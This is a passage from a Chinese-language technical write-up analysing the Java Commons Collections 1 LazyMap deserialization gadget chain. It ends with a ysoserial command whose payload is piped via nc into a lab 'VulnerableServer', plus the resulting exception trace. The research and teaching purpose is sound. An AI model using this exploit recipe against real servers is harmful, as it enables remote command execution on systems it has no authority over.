 --------------------------------------------------------------------------
ObjectInputStream.readObject
    AnnotationInvocationHandler.readObject
        Map($Proxy0).entrySet
            AnnotationInvocationHandler.invoke
                LazyMap.get
                    ChainedTransformer.transform
--------------------------------------------------------------------------

两次出现AnnotationInvocationHandler，但它们的地位不同。第一次出现，是作为
反序列化目标。第二次出现，是作为动态代理机制中的InvocationHandler。理论上
二者不必一致。

8.3.5) AnnotationInvocationHandler()第一形参还能使用其他接口吗

基本上你能看到的PoC，第一形参都是Override。但实际上，对于LazyMap利用链，只
要是Annotation的子接口，且是public的，就可以用于第一形参。在exec()之前针对
这个第一形参，没有更多其他检查。比如这些都符合要求:

java.lang.Override
java.lang.annotation.Documented
java.lang.annotation.Inherited
java.lang.annotation.Native
java.lang.annotation.Retention
java.lang.annotation.Target
java.lang.annotation.Repeatable

在LazyMap利用链中接着用Retention没问题。

8.3.6) EvilClientWithLazyMap2.java

演示确认Override之外的其他接口亦可用，没有其他意图。此处略。

8.3.7) EvilClientWithLazyMap3.java

演示确认接着用Retention没问题。此处略。

8.3.8) ysoserial/CommonsCollections1

参[52]，可以用ysoserial生成使用LazyMap利用链的序列化数据。据说3.1至3.2.1都
可以。

执行服务端:

java_8_40 \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

执行客户端:

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "/bin/touch /tmp/scz_is_here" | nc -n 192.168.65.23 1414

得手时服务端抛出异常:

Exception in thread "main" java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
        at com.sun.proxy.$Proxy0.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:444)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:497)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1896)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
        at VulnerableServer.main(VulnerableServer.java:22)
